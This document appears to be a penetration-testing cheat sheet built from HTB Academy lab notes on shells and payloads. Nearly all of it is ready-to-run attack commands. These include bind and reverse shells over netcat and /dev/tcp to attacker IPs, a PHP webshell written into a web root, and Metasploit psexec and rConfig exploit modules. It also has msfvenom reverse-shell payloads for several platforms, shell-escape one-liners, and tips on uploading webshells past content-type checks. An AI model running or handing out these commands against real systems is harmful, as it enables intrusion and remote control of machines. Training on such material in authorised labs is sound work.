 ## Bind Shells

#### Target - Binding a Bash shell to the TCP session
```Shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```

#### Attack Host - Connecting to bind shell on target
```Shell
nc -nv 10.129.41.200 7777
```


## Reverse Shells

[Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### [Reverse Shells Module on HTB Academy](https://academy.hackthebox.com/module/115/section/1106)

#### Send a reverse shell from the remote server
```Shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

#### Another command to send a reverse shell from the remote server
```Shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

#### Create a webshell php file
```Shell
echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

#### Execute a command on an uploaded webshell
```Shell
curl http://SERVER_IP:PORT/shell.php?cmd=id
```

## Payloads

#### [Payloads Module on HTB Academy](https://academy.hackthebox.com/module/115/section/1131)
- Includes a [Nishang Project PowerShell Script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) 

### Metasploit Payloads

#### SMB psexec
```Shell
use exploit/windows/smb/psexec
set RHOSTS 10.129.180.71
set SHARE ADMIN$
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
set LHOST 10.10.14.222
run
```

### Using the rConfig Exploit and Gaining a Shell

#### Select an Exploit
```Shell
use exploit/linux/http/rconfig_vendors_auth_file_upload_rce
```

### MSFVenom Payloads

#### MSFvenom command used to generate a linux-based reverse shell stageless payload
```Shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf
```

#### MSFvenom command used to generate a Windows-based reverse shell stageless payload
```Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe
```

#### MSFvenom command used to generate a MacOS-based reverse shell payload
```Shell
msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho
```

#### MSFvenom command used to generate a ASP web reverse shell payload
```Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp
```

#### MSFvenom command used to generate a JSP web reverse shell payload
```Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp
```

#### MSFvenom command used to generate a WAR java/jsp compatible web reverse shell payload
```Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f war > nameoffile.war
```


## Interactive Shells

#### Shows python version present on system
```Shell
which python
```

#### Python command used to spawn an interactive shell on a linux-based system
```Shell
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Upgrade shell TTY (2)
[ctrl+z] then `stty raw -echo` then `fg` then [enter] twice

#### Spawn an interactive shell on a linux-based system
```Shell
/bin/sh -i
```

#### Use perl to spawn an interactive shell on a linux-based system
```Shell
perl -e 'exec "/bin/sh";'
```

```Shell
perl: exec "/bin/sh";
```

#### Use ruby to spawn an interactive shell on a linux-based system
```Shell
ruby: exec "/bin/sh"
```

#### Use Lua to spawn an interactive shell on a linux-based system
```Shell
lua: os.execute('/bin/sh')
```

#### Use awk command to spawn an interactive shell on a linux-based system
```Shell
awk 'BEGIN {system("/bin/sh")}'
```

#### Use `find` command to spawn an interactive shell on a linux-based system
```Shell
find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;
```

#### Use Exec to Launch a Shell
```Shell
find . -exec /bin/sh \; -quit
```

#### Vim to Shell
```Shell
vim -c ':!/bin/sh'
```

#### Vim Escape
```Shell
vim
:set shell=/bin/sh
:shell
```

### Permissions

#### List files & directories on a linux-based system and show the permission for each file in the chosen directory
```Shell
ls -la <path/to/fileorbinary>
```
Can be used to look for binaries that we have permission to execute

#### Display the commands that the currently logged on user can run as sudo
```Shell
sudo -l
```


## Web Shells

### [Laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)

- Add your IP address to the script
- Upload it as a file
- Navigate to the shell
![[Pasted image 20230303151836.png]]

### [Antak Webshell](https://raw.githubusercontent.com/samratashok/nishang/master/Antak-WebShell/antak.aspx)

- Used against a Windows .aspx server
- Upload the shell and navigate to the page
![[Pasted image 20230303152215.png]]

### `PHP` Web Shells

[WhiteWinterWolf's P`H`P Web Shell](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)

May need to use Burp Suite and intercept the request, then modify the Content-type from `application/x-php` to `image/gif`

